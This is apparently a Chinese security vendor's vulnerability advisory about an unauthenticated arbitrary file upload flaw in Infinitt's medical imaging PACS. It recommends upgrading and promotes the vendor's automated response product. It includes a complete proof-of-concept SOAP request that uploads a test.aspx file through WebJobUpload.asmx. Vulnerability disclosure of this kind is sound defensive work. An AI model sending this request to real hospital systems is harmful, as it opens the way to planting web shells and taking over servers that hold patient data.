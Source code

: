 #  高危漏洞预警｜英飞达医学影像存档与通信系统任意文件上传漏洞   
 众智维安   2024-06-02 10:55  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/ENmblAibon4DEyfEMLJZTzTWLbRHicRaXaRyTXuvwe3WBvHJo32VVTtB4MnHabJ2VqNpmrG8Jeh0kDCq1yb3lEHg/640?wx_fmt=gif "")  
  
  
  
  
近日，众智维科技麒麟安全实验室监测到英飞达医学影像存档与通信系统的WebJobUpload接口存在任意文件上传漏洞。英飞达是一家专业开发医学影像系统的公司，成立于1994年，医学影像存档与通信系统 Picture Archiving and Communication System，由软件光盘、使用手册组成，组成模块包括影像采集模块、影像存储模块、影像浏览模块、影像输出模块。用于医疗图像的采集、存储、浏览、传输和输出。其WebJobUpload.asmx接口存在任意文件上传漏洞，未经身份验证的恶意攻击者可以上传任意文件，进而控制服务器系统。  
  
  
  
  
**漏洞概述**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ENmblAibon4DEyfEMLJZTzTWLbRHicRaXas9cJBo2KS2oqXohDqzjfECuabVluKBAgo6OrrDjBgVAndYf4u10W3g/640?wx_fmt=png "")  
  
  
**影响版本**  
  
英飞达医学影像存档与通信系统  
  
  
**处置建议**  
  
**版本修复**  
  
目前官方已发布修复版本，建议用户升级到安全版本：  
  
**https://www.infinitt.vip/**  
  
  
**POC验证**  
  
```
POST /webservices/WebJobUpload.asmx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Length: 410
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
Soapaction: "http://rainier/jobUpload"
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<jobUpload xmlns="http://rainier">
<vcode>1</vcode>
<subFolder></subFolder>
<fileName>test.aspx</fileName>
<bufValue>dGVzdA==</bufValue>
</jobUpload>
</soap:Body>
</soap:Envelope>
```  
  
  
**红鲸RedOps处置方案**  
  
众智维科技深耕医疗行业，旨在为行业客户提供智能化安全应急处置方案，英飞达医学影像存档与通信系统任意文件上传漏洞已经经过研究及设计剧本，实现自动化处置，该剧本可以通过捕获并判断任意文件上传漏洞的目的地址关联的资产是否为英飞达医学影像存档与通信系统，若存在立刻将告警等级修改为严重，通过重新定义等级触发对应的应急动作，调用防火墙接口进行封禁源IP地址同时执行漏洞修复审核工作任务，针对漏洞执行相应的补丁修复操作，考虑客户真实的处置环境会有修复困难等问题，采取对应的抑制措施并将该类型告警关联到目标资产相关的case中去，进行漏洞的延时处理。RedOps作为医疗行业安全运营的神经中枢，使得**MTTR响应指标同比之前降低300%以上**，将**原有超过4小时的处理时间压缩到小时和分钟以内**，大幅度减轻客户的应急溯源等运营压力。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ENmblAibon4DEyfEMLJZTzTWLbRHicRaXaZy4YQtlJ6WRN1icNdYMhhibnEQnF5bpQCTZEicWFX55EmNjwfpaopzrtA/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ENmblAibon4DEyfEMLJZTzTWLbRHicRaXaq3Oky3eocze14Byjh5Vc8Vib2fiaAHVG5lJULy9KbPQtwgG5Ntvg7xjA/640?wx_fmt=png "")  
  
  
  
  
  
  
  
  
我们时刻关注客户需求，为您提供最新漏洞信息。如果您想了解更详细的支持信息，可联系下方邮箱或者电话进行咨询！  
  
**01support@openxorg.com**  
  
**400-0133-123**  
  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/0O2ge0VY4ytpchkcSTQHNLfRkISKFHeYfcAnET8M2VZsr8r6ojiaFBM466JB7y977PGYQ8fYlwWNc83H3LZ2JJw/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ENmblAibon4DEyfEMLJZTzTWLbRHicRaXaHcsxPZT6J6QdnEibDnEPwdibUTSDnQZkC9cuktnSVgeBJa5DiaM046wpA/640?wx_fmt=png "")  
  
  
  
  
技术 | 宋海波  
  
  
编辑 | 孙敏  
  
